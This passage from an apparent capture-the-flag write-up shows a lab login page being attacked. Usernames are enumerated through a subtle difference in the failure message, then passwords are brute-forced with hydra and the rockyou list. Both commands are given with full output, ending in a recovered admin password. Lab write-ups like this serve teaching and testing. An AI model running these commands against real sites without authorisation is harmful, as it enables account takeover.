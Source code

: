On testing a few logins, I’ll notice there’s a subtle difference between a failed login with user “admin” (that likely exists) and user “asdasdasd” (that likely does not):

![1540810145333](https://0xdfimages.gitlab.io/img/1540810145333.png)

vs 

![1540810168467](https://0xdfimages.gitlab.io/img/1540810168467.png)

I can use this to brute force usernames. I’ll pick a password that won’t work. Now if it returns with no trailing “.”, that means the username exists. If it has the “.”, the user does not exist.

`hydra` wants a string to recognize failure. In this case, I’ll give it the string with the “.” as that means the username doesn’t exist, and it will then show me the ones where the username does exist.

```

root@kali# hydra -L /opt/SecLists/Usernames/cirt-default-usernames.txt -p sadfasdfasdf 10.10.10.86 http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:Login failed.<"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 06:38:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 825 login tries (l:825/p:1), ~52 tries per task
[DATA] attacking http-post-form://10.10.10.86:80//login:username=^USER^&password=^PASS^&submit=Login:Login failed.<
[80][http-post-form] host: 10.10.10.86   login: ADMIN   password: sadfasdfasdf
[80][http-post-form] host: 10.10.10.86   login: Admin   password: sadfasdfasdf
[80][http-post-form] host: 10.10.10.86   login: Audrey   password: sadfasdfasdf
[80][http-post-form] host: 10.10.10.86   login: DEFAULT   password: sadfasdfasdf
[80][http-post-form] host: 10.10.10.86   login: DEMO   password: sadfasdfasdf
[80][http-post-form] host: 10.10.10.86   login: Demo   password: sadfasdfasdf
[80][http-post-form] host: 10.10.10.86   login: admin   password: sadfasdfasdf
[80][http-post-form] host: 10.10.10.86   login: default   password: sadfasdfasdf
[80][http-post-form] host: 10.10.10.86   login: demo   password: sadfasdfasdf
1 of 1 target successfully completed, 9 valid passwords found

```

Again, because I told `hydra` that failure was the string “Login failed.”, it’s reporting any time it doesn’t get that, which are valid usernames.

#### Brute Force Password

With a small list of usernames, now I’ll try for a password. rockyou is huge, and there’s no way I’ll get all the way through it, but it’s a good place to start to see if anything jumps out and to let run in the background. It finds a login for admin very quickly:

```

root@kali# hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.86  http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:failed"                        
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 06:55:13
[DATA] max 16 tasks per 1 server, overall 16 tasks, 57377596 login tries (l:4/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://10.10.10.86:80//login:username=^USER^&password=^PASS^&submit=Login:failed
[STATUS] 1569.00 tries/min, 1569 tries in 00:01h, 57376027 to do in 609:29h, 16 active
[80][http-post-form] host: 10.10.10.86   login: admin   password: Password1

```
